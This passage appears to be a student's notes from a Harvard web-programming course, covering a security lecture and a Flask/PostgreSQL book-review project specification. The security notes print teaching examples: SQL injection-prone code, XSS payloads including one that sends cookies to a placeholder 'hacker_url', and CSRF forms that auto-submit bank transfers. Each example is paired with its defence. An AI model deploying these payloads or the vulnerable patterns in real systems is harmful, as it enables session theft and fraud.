    each server has access to the same cache. Instead of querying a
    database repeatedly, servers can query the cache and receive a much
    faster response if the query has been made recently.

    -   Any time the database is updated, there is potential for the
        cache to become stale or invalid. The cache could be updated
        with any write, but often times it is wiser to employ some logic
        to only invalidate the cache at certain points. One simple
        workaround is to simply set an expiration for the cache if the
        temporary inaccuracy is tolerable.

    1.  [Security](https://courses.edx.org/courses/course-v1:HarvardX+CS50W+Web/courseware/3b4d945d89eb40bcad81746770a81c3b/92aa66e74b1e41ff8046edf603d3a067/)

**Notes -- FINAL Lecture 11: Security**

# Security

## Open-Source Software

-   Open-source software's code is openly available to anyone who would
    like to see it or develop and contribute to it. In terms of
    security, open-source software could be considered more secure
    because it can be seen by anyone. On the other hand, any security
    vulnerabilites can be exploited by anyone who can find them.

-   With GitHub in particular, repositories can be made private and
    restricted to certain users, but if someone gains access to a GitHub
    account, those repositories are still easily accessed.

    -   Sites could try to prevent simple account hacking by limiting
        log-in attempts to a given frequency, by implementing a more
        rigorous user system that employs two-factor authentication, for
        example. Two-factor authentication requires access to a phyiscal
        device, such as a phone, to verify user identity.

-   With Git or other version control systems in general, it is
    important that sensitive information, like a password or
    information, doesn't get pushed to a repository. If such a situation
    were to occur, even pushing another commit removing those
    credentials wouldn't be secure. Due to the nature of version
    control, all old commits are still visible.

    -   It is possible to revert to an old commit and prune away extra
        commits and 'force push' this back to GitHub, but all that code
        should be considered compromised. Any compromised credentials
        should be exchanged with new ones.

## HTML

-   Because any page's HTML source code can be easily viewed and copied,
    a bank's website's HTML could be replicated to deceive users into
    inputting their credentials.

-   Links in particular are easily abused. Any links can be modified to
    redirect users to a different web page entirely to trick a user into
    doing something. The inner text of a link, which is displayed to a
    user, can be changed to be completely different from what the actual
    link is.

-   From the user's end, one way to defend against these security
    vulnerabilites is to be careful about what links are being clicked.
    Web browsers often display in a status bar or some other UI the
    actual link.

-   Ultimately, there's no way to avoid a site's HTML from being viewed
    or copied because the server has to send to HTML source code to a
    user in order for the web page to be rendered by the browser.

## Flask

-   With Flask, and any other web server, packets of information are
    being sent between routers, which opens up new security concerns.
    Often times, a single request sent to a server will travel through
    multiple routers. Any of those midway points could potentially read
    any of the information being passed.

### Cryptography

-   Cryptography is the process of encrypting traffic flowing through
    these routers so that a middleman cannot read the data.

-   Secret-key cryptography consists of both the sender and the
    recipient both know a secret key which can be used, along with a
    cryptographic algorithm, to encode and decode the message. The
    encrypted version is called 'ciphertext'. The unencrypted version is
    'plaintext'.

    -   In order for this system to work, only the sender and the
        recipient can know the key, which means that the key cannot be
        transmitted along with ciphertext.

-   Public-key cryptography uses two keys, a public key and a private
    key. The public key can only be used to encrypt information, while
    the private key, which should never be shared or sent across a
    network, can be used to decrypt information.

    -   Every time a message needs to be sent, the recipient sends their
        public key, which can be known, to the sender, who uses the key
        to encrypt the message. The recipient's private key is the only
        key which can be used to decrypt the ciphertext. It doesn't
        matter, then, that intermediaries might have the public key.

-   As has been noted, passwords and other credentials should never be
    put in source code. What should be done instead is to set parameters
    like secret keys using environment variables, which are located
    inside the system the program is running on but not in the program's
    code itself.

## SQL

-   When storing user information, such as username and passwords, in a
    database, sensitive information like passwords should be encrypted.
    Specifically, the 'hashed' version, which is the output of a hash
    function which deterministically generates a sequence based on the
    input, which is the plaintext password.

    -   Hashed functions are generally designed to be one-way, such that
        it is unfeasible to decrypt a hashed password.

    -   To log a user in, the entered password simply needs be run
        through the (deterministic) hash function and compared with the
        stored hash.

    -   If a hash function is known, malicious users who have gained
        access to a database could still run common passwords through
        the function to compare to the hashes in the table.

-   Database leakage refers to any information that is unintentionally
    released from a database. One example might be a password reset
    page, where a user can enter the e-mail to get a link to reset a
    password. If the site has one message for a sent e-mail and another
    message for an e-mail that's not tied to an account, then users can
    figure out if an e-mail is associated with an account. This
    information, even if it doesn't compromise the account, might still
    be sensitive.

### SQL Injection

-   SQL injection consists of sending, through a form or otherwise, SQL
    code to web server which then executes that code on a database. This
    is a potential vulnerability if user input is being passed directly
    into a command like so:

> username = request.form.get(&quot;username&quot;)
>
> password = request.form.get(&quot;password&quot;)
>
> user = db.execute(&quot;SELECT &ast; FROM users WHERE (username = &apos;&quot; +
> username
>
> &plus; &quot;&apos;) AND (password = &apos;&quot; + password + &quot;&apos;)&quot;).first()

-   To avoid this, any input that is passed, in one way or another, into
    a command should be have potentially dangerous characters, like &apos;,
    'escaped'. Often times, this input 'sanitation' is done
    automatically when using libraries such as SQLAlchemy.

## APIs

-   When designing APIs, it is often important to ensure that certain
    users only have access to certain information. To keep track of
    users, API keys, simply long strings, are generated and associated
    with every user. Every time an API request is made, an API key must
    be passed with it.

-   API keys allow for 'route authentication', or verifying that a user
    has permission to access a certain route. They also can be used for
    'rate limiting', or ensuring that a user can only make so many
    requests.

## JavaScript

-   While HTML and CSS can be abused, they only affect how the browser
    renders a web page. With JavaScript arises the possibility for
    malicious code to be run inside the browser.

### Cross-Site Scripting

-   Similar to how SQL injections abused the possibilities for users to
    modify the code being run on a database, cross-site scripting
    consists of running some arbitrary JavaScript code inside a browser.
    Here's is an example of a Flask application that is vulnerable to
    such an attack:

> from flask import Flask, request
>
> app = Flask(&lowbar;&lowbar;name&lowbar;&lowbar;)
>
> &commat;app.route(&quot;/&quot;)
>
> def index():
>
> return &quot;Hello, world!&quot;
>
> &commat;app.errorhandler(404)
>
> def page_not_found(e)
>
> return &quot;Not Found: &quot; + request.path

-   page_not_found will be run whenever the server returns a '404 Not
    Found' response code, thanks to Flask's built in error handler.

-   request.path is the URL which the user tried to access, but was not
    found by the server.

-   If, instead an incorrect path, the user entered some JavaScript code
    in the URL (for example, /&lt;script&gt;alert(&apos;hi&apos;)&lt;/script&gt;), then
    that code will be rendered in the HTML and run.

-   Lots of modern browsers such as Chrome have cross-site scripting
    'auditors' built-in that will detect relatively simple cases, such
    as the previous example, and will not render the page. Nonetheless,
    there are cases which will get past such auditors, and not all
    browsers will have such features.

-   More dangerous instances of cross-site scripting can compromise
    passwords, credit card information, etc. Take the following script,
    for example:

> /&lt;script&gt;document.write(&apos;&lt;img
> src=&quot;hacker_url?cookie=&quot;+document.cookie+&quot;&gt;&quot;)&lt;/script&gt;

-   document.write adds new content to the HTML source.

-   The added content is an image, with a URL to some unknown site, but
    it is also being passed as a cookie document.cookie, which
    represents the cookie for the current page. If a hacker is
    monitoring the traffic to web server, then this request, which
    contains the cookie being used for the current site, is compromised.
    The hacker can then use that cookie to log in as that user on the
    current site. These are the sorts of vulnerabilites that cross-site
    scripting auditors try to protect against.

-   One defense against cross-site scripting, like SQL injection is to
    ensure that any potentially dangerous characters are escaped.
    Frameworks like Flask and Django can often be configured to do this
    automatically.

-   Cross-site scripting does not require JavaScript to passed through
    the URL. Here's an example that abuses a database:

> &commat;app.route(&quot;/&quot;, methods=&lbrack;&quot;GET&quot;, &quot;POST&quot;&rbrack;)
>
> def index():
>
> if request.method == &quot;POST&quot;:
>
> contents = request.form.get(&quot;contents&quot;)
>
> db.execute(&quot;INSERT INTO messages (contents) VALUES (:contents)&quot;,
> {&quot;contents&quot;: contents})
>
> messages = db.execute(&quot;SELECT &ast; FROM messages&quot;).fetchall()
>
> return render_template(&quot;index.html&quot;, messages=messages)

-   This is a simple notes/message board app in which users can type in
    messages to be stored in a database. Anytime the page is refreshed,
    all old messages are loaded.

-   Now, insteading of tricking the user to make a request with
    malicious JavaScript in the URL, all that needs to be done is to
    enter that code as a message. The first time the message is
    submitted, it is being sent through to the server, which means that
    it is likely that a cross-site scripting auditor will catch it.
    After that, however, there is nothing suspicious about the URL. The
    code is being loaded server-side from the database, which means an
    auditor won't be able to detect it, making this vulnerability
    arguably more severe.

-   Other examples of malicious uses for cross-site scripting include
    rendering a completely different page with document.body.innerHTML =
    &quot;insert contents here&quot;, redirecting to different site
    with window.location = &quot;hacker_URL&quot;, etc.

-   Note that for the previous example, the HTML had to purposefully
    written in order to get around Flask's built-in character escaping
    behavior:

> &lt;ul&gt;
>
> 
>
> &lt;li&gt;{{ message.contents &vert; safe }}&lt;/li&gt;
>
> 
>
> &lt;/ul&gt;

-   message.contents &vert; safe indicates that nothing should be escaped.

-   Note that whenever template contents are generated manually, such as
    via string concatentation in the first example, that these sorts of
    automatic defenses are bypassed as well.

## Django

### Cross-Site Request Forgery

-   Cross-site request forgery (CSRF) consists of forging a request to
    different website that the user is already logged in to. Consider a
    bank's website, which allows for money transfers at /transfer by
    passing in the recipient and an amount. Here's some HTML that can
    exploit that:

> &lt;body&gt;
>
> &lt;a href=&quot;http://yourbank.com/transfer?to=brian&amt=2800&quot;?&gt;
>
> Click Here!
>
> &lt;/a&gt;
>
> &lt;/body&gt;

-   If the user is already logged in to the bank, then simply following
    that link will initiate the transfer.

-   The bank could defend against this sort of intrusion by not using
    a GET request for this sort of functionality. In general, it is good
    practice to use POST requests and form submissions, rather
    than GET requests, for any such state modifications.

-   A more insidious version of the previous exploit uses the same trick
    of putting the link inside an img element, such that the user
    doesn't even need to do anything other than load the page to trigger
    the transfer.

> &lt;body&gt;
>
> &lt;img src=&quot;http://yourbank.com/transfer?to=brian&amt=2800&quot;&gt;
>
> &lt;/body&gt;

-   Even if the bank was wise enough to require a POST request to
    initiate a transfer, there is still the potential for abuse.

> &lt;body&gt;
>
> &lt;form action=&quot;https://yourbank.com/transfer&quot; method=&quot;post&quot;&gt;
>
> &lt;input type=&quot;hidden&quot; name=&quot;to&quot; value=&quot;brian&quot;&gt;
>
> &lt;input type=&quot;hidden&quot; name=&quot;amt&quot; value=&quot;2800&quot;&gt;
>
> &lt;input type=&quot;submit&quot; value=&quot;Click Here!&quot;&gt;
>
> &lt;/form&gt;
>
> &lt;body&gt;

-   These inputs, pre-filled with the desired values, will not be shown
    to the user because of the type=&quot;hidden&quot; attribute. All the user
    sees is a button.

-   By changing the first body tag of the previous example, the form can
    be made to submit automatically, without the user having to do
    anything at all.

&lt;body onload=&quot;document.forms&lbrack;0&rbrack;.submit()&quot;&gt;

-   document.forms&lbrack;0&rbrack; returns the first form in the document, which is
    already pre-filled with the bank transfer information. As soon as
    the page is loaded, the POST request will be made.

-   The solution to this vulnerability is to add a special 'token',
    essentially a password, to be submitted with every form. These
    tokens are added automatically by the server, and when the server
    sees a request, it can compare the token it receives with the token
    it knows to have inserted. In this way, only valid form requests
    will be respected. Because a new token is generated with every form,
    they cannot be reused or stolen.

-   Django and many other web frameworks have support for this CSRF
    token functionality. With Django, adding a CSRF token is simple:

> &lt;form action=&quot;https://yourbank.com/transfer&quot; method=&quot;post&quot;&gt;
>
> 
>
> &lt;input type=&quot;hidden&quot; name=&quot;to&quot; value=&quot;brian&quot;&gt;
>
> &lt;input type=&quot;hidden&quot; name=&quot;amt&quot; value=&quot;2800&quot;&gt;
>
> &lt;input type=&quot;submit&quot; value=&quot;Click Here!&quot;&gt;
>
> &lt;/form&gt;

## 

## Testing, CI/CD

-   When using a CI tool such as Travis, that tool has access to the
    entire codebase. Now, if either Travis or GitHub, for example, are
    compromised, so is the codebase. This is the case whenever accounts
    or sites grant other applications access to user information. When
    designing services that share information, it is important to be
    careful when choosing whom to share with. Users of these services
    should be careful about what information is potentially being
    exposed.

## Scalability

### DoS Attacks

-   Because any server is a finite machine capable of handling a finite
    number of requests, a hacker can send an excessive number of
    requests in a short period of time to try and shut down a server.
    This is called a 'denial of service', or DoS, attack. A
    'distributed' denial of service, or DDoS, attack consists of using a
    large number of bots or computers to make an even greater number of
    requests to a single server.

-   One potential safeguard against DDoS attacks is a filtering system
    to try and ensure that only valid requests are respected. If a user
    is suspicious, they could be blacklisted to prevent them from making
    any future requests. In the end, however, it often does come down to
    a battle of resources between the attacker and the server(s). Often
    times, this needs to be dealt with at the server or ISP level, as
    opposed to at the application level, especially when working with a
    large web application.

> **Project NOTES -- Lecture 3: SQL - PostGresSQL**

# Project 1: Books

## Objectives

-   Become more comfortable with Python.

-   Gain experience with Flask.

-   Learn to use SQL to interact with databases.

## Overview

> In this project, you'll build a book review website. Users will be
> able to register for your website and then log in using their username
> and password. Once they log in, they will be able to search for books,
> leave reviews for individual books, and see the reviews made by other
> people. You'll also use a third-party API by Goodreads, another book
> review website, to pull in ratings from a broader audience. Finally,
> users will be able to query for book details and book reviews
> programmatically via your website's API.

## Getting Started

### PostgreSQL

> For this project, you'll need to set up a PostgreSQL database to use
> with our application. It's possible to set up PostgreSQL locally on
> your own computer, but for this project, we'll use a database hosted
> by [Heroku](https://www.heroku.com/), an online web hosting service.

1.  Navigate to <https://www.heroku.com/>, and create an account if you
    don't already have one.

2.  On Heroku's Dashboard, click "New" and choose "Create new app."

3.  Give your app a name, and click "Create app."

4.  On your app's "Overview" page, click the "Configure Add-ons" button.

5.  In the "Add-ons" section of the page, type in and select "Heroku
    Postgres."

6.  Choose the "Hobby Dev - Free" plan, which will give you access to a
    free PostgreSQL database that will support up to 10,000 rows of
    data. Click "Provision."

7.  Now, click the "Heroku Postgres :: Database" link.

8.  You should now be on your database's overview page. Click on
    "Settings", and then "View Credentials." This is the information
    you'll need to log into your database. You can access the database
    via [Adminer](https://adminer.cs50.net/), filling in the server (the
    "Host" in the credentials list), your username (the "User"), your
    password, and the name of the database, all of which you can find on
    the Heroku credentials page.

> Alternatively, if you
> install [PostgreSQL](https://www.postgresql.org/download/) on your own
> computer, you should be able to run psql URI on the command line,
> where the URI is the link provided in the Heroku credentials list.

### Python and Flask

1.  First, make sure you install a copy
    of [Python](https://www.python.org/downloads/). For this course, you
    should be using Python version 3.6 or higher.

2.  You'll also need to install pip. If you downloaded Python from
    Python's website, you likely already have pip installed (you can
    check by running pip in a terminal window). If you don't have it
    installed, be sure to [install
    it](https://pip.pypa.io/en/stable/installing/) before moving on!

> {width="7.125in"
> height="0.7763888888888889in"}
>
> To try running your first Flask application:

1.  Download the project1 distribution directory
    from <https://cdn.cs50.net/web/2019/x/projects/1/project1.zip> and
    unzip it.

2.  In a terminal window, navigate into your project1 directory.

3.  Run pip3 install -r requirements.txt in your terminal window to make
    sure that all of the necessary Python packages (Flask and
    SQLAlchemy, for instance) are installed.

4.  Set the environment variable FLASK_APP to be application.py. On a
    Mac or on Linux, the command to do this is export
    FLASK_APP=application.py. On Windows, the command is instead set
    FLASK_APP=application.py. You may optionally want to set the
    environment variable FLASK_DEBUG to 1, which will activate Flask's
    debugger and will automatically reload your web application whenever
    you save a change to a file.

5.  Set the environment variable DATABASE_URL to be the URI of your
    database, which you should be able to see from the credentials page
    on Heroku.

6.  Run flask run to start up your Flask application.

7.  If you navigate to the URL provided by flask, you should see the
    text &quot;Project 1: TODO&quot;!

### Goodreads API

> Goodreads is a popular book review website, and we'll be using their
> API in this project to get access to their review data for individual
> books.

1.  Go to <https://www.goodreads.com/api> and sign up for a Goodreads
    account if you don't already have one.

2.  Navigate to <https://www.goodreads.com/api/keys> and apply for an
    API key. For "Application name" and "Company name" feel free to just
    write "project1," and no need to include an application URL,
    callback URL, or support URL.

3.  You should then see your API key. (For this project, we'll care only
    about the "key", not the "secret".)

4.  You can now use that API key to make requests to the Goodreads API,
    documented [here](https://www.goodreads.com/api/index). In
    particular, Python code like the below

> **import** requests
>
> res **=**
> requests**.**get(&quot;https://www.goodreads.com/book/review_counts.json&quot;,
> params**=**{&quot;key&quot;: &quot;KEY&quot;, &quot;isbns&quot;: &quot;9781632168146&quot;})
>
> **print**(res**.**json())
>
> where KEY is your API key, will give you the review and rating data
> for the book with the provided ISBN number. In particular, you might
> see something like this dictionary:
>
> {&apos;books&apos;: &lbrack;{
>
> &apos;id&apos;: 29207858,
>
> &apos;isbn&apos;: &apos;1632168146&apos;,
>
> &apos;isbn13&apos;: &apos;9781632168146&apos;,
>
> &apos;ratings_count&apos;: 0,
>
> &apos;reviews_count&apos;: 1,
>
> &apos;text_reviews_count&apos;: 0,
>
> &apos;work_ratings_count&apos;: 26,
>
> &apos;work_reviews_count&apos;: 113,
>
> &apos;work_text_reviews_count&apos;: 10,
>
> &apos;average_rating&apos;: &apos;4.04&apos;
>
> }&rbrack;
>
> }
>
> Note that work_ratings_count here is the number of ratings that this
> particular book has received, and average_rating is the book's average
> score out of 5.

## Requirements

> Alright, it's time to actually build your web application! Here are
> the requirements:

-   **Registration**: Users should be able to register for your website,
    providing (at minimum) a username and password.

-   **Login**: Users, once registered, should be able to log in to your
    website with their username and password.

-   **Logout**: Logged in users should be able to log out of the site.

-   **Import**: Provided for you in this project is a file
    called books.csv, which is a spreadsheet in CSV format of 5000
    different books. Each one has an ISBN number, a title, an author,
    and a publication year. In a Python file called import.py separate
    from your web application, write a program that will take the books
    and import them into your PostgreSQL database. You will first need
    to decide what table(s) to create, what columns those tables should
    have, and how they should relate to one another. Run this program by
    running python3 import.py to import the books into your database,
    and submit this program with the rest of your project code.

-   **Search**: Once a user has logged in, they should be taken to a
    page where they can search for a book. Users should be able to type
    in the ISBN number of a book, the title of a book, or the author of
    a book. After performing the search, your website should display a
    list of possible matching results, or some sort of message if there
    were no matches. If the user typed in only part of a title, ISBN, or
    author name, your search page should find matches for those as well!

-   **Book Page**: When users click on a book from the results of the
    search page, they should be taken to a book page, with details about
    the book: its title, author, publication year, ISBN number, and any
    reviews that users have left for the book on your website.

-   **Review Submission**: On the book page, users should be able to
    submit a review: consisting of a rating on a scale of 1 to 5, as
    well as a text component to the review where the user can write
    their opinion about a book. Users should not be able to submit
    multiple reviews for the same book.

-   **Goodreads Review Data**: On your book page, you should also
    display (if available) the average rating and number of ratings the
    work has received from Goodreads.

-   **API Access**: If users make a GET request to your
    website's /api/&lt;isbn&gt; route, where &lt;isbn&gt; is an ISBN number,
    your website should return a JSON response containing the book's
    title, author, publication date, ISBN number, review count, and
    average score. The resulting JSON should follow the format:

> {
>
> &quot;title&quot;: &quot;Memory&quot;,
>
> &quot;author&quot;: &quot;Doug Lloyd&quot;,
>
> &quot;year&quot;: 2015,
>
> &quot;isbn&quot;: &quot;1632168146&quot;,
>
> &quot;review_count&quot;: 28,
>
> &quot;average_score&quot;: 5.0
>
> }
>
> If the requested ISBN number isn't in your database, your website
> should return a 404 error.

-   You should be using raw SQL commands (as via
    SQLAlchemy's execute method) in order to make database queries. You
    should not use the SQLAlchemy ORM (if familiar with it) for this
    project.

-   In README.md, include a short writeup describing your project,
    what's contained in each file, and (optionally) any other additional
    information the staff should know about your project.

-   If you've added any Python packages that need to be installed in
    order to run your web application, be sure to add them
    to requirements.txt!

> Beyond these requirements, the design, look, and feel of the website
> are up to you! You're also welcome to add additional features to your
> website, so long as you meet the requirements laid out in the above
> specification!

## Hints

-   At minimum, you'll probably want at least one table to keep track of
    users, one table to keep track of books, and one table to keep track
    of reviews. But you're not limited to just these tables, if you
    think others would be helpful!

-   In terms of how to "log a user in," recall that you can store
    information inside of the session, which can store different values
    for different users. In particular, if each user has an id, then you
    could store that id in the session (e.g., in session&lbrack;&quot;user_id&quot;&rbrack;)
    to keep track of which user is currently logged in.

## FAQs

### For the API, do the JSON keys need to be in order?

> Any order is fine!

### AttributeError: &apos;NoneType&apos; object has no attribute &apos;&lowbar;instantiate_plugins&apos;

> Make sure that you've set your DATABASE_URL environment variable
> before running flask run!

## How to Submit

1.  If you haven't already done so, visit [this
    link](https://submit.cs50.io/invites/89679428401548238ceb022f141b9947),
    log in with your GitHub account, and click **Authorize cs50**. Then,
    check the box indicating that you'd like to grant course staff
    access to your submissions, and click **Join course**.

2.  Using [Git](https://git-scm.com/downloads), push your work
    to https://github.com/me50/USERNAME.git, where USERNAME is your
    GitHub username, on a branch called web50/projects/2019/x/1 or, if
    you've installed [submit50](https://cs50.readthedocs.io/submit50/),
    execute

3.  submit50 web50/projects/2019/x/1

> instead.

4.  [Record a 1- to 5-minute
    screencast](https://www.howtogeek.com/205742/how-to-record-your-windows-mac-linux-android-or-ios-screen/) in
    which you demonstrate your app's functionality and/or walk viewers
    through your code. [Upload that video to
    YouTube](https://www.youtube.com/upload) (as unlisted or public, but
    not private) or somewhere else.

5.  [Submit this
    form](https://forms.cs50.io/a8a742ce-32c4-4064-b450-3518de633fec).

> You can then go to <https://cs50.me/cs50w> to view your progress!
>
> Docker -- Remove virtual machine -- lecture 8. See:
> https://docs.docker.com
>
> {width="7.125in"
> height="2.9194444444444443in"}

